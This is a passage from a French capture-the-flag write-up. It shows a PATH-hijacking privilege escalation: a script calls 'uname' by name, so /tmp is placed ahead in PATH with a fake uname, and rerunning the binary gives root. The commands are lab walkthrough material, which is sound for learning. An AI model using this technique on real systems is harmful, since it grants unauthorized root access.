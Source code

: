 ![Untitled 9](https://user-images.githubusercontent.com/68467919/206929343-1d9af91d-c14c-4619-a5c6-cec0f6a6b7f4.png)

Nous voyons que le script fait appel au binaire uname pour pouvoir nous ressortir le nom de l’architecture du système. Si nous modifions notre path en y attribuant notre propre “uname”, nous pourrions peut-être obtenir un accès au root.

## Path Hijacking

![Untitled 10](https://user-images.githubusercontent.com/68467919/206929372-3aced21a-bf0d-480c-be9c-21fb41739970.png)

```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/tmp/:/usr/bin/:/sbin:/bin:/usr/local/games:/usr/games
```

En re-éxcutant la commande, nous obtenons un accès à l’utilisateur root ! 

```bash
echo 1 | ./swagger | tr -dc '0-9' | ./swagger
```

![Untitled 11](https://user-images.githubusercontent.com/68467919/206929381-7733dcca-7ddc-4274-a873-41a99299b707.png)

ROOTED
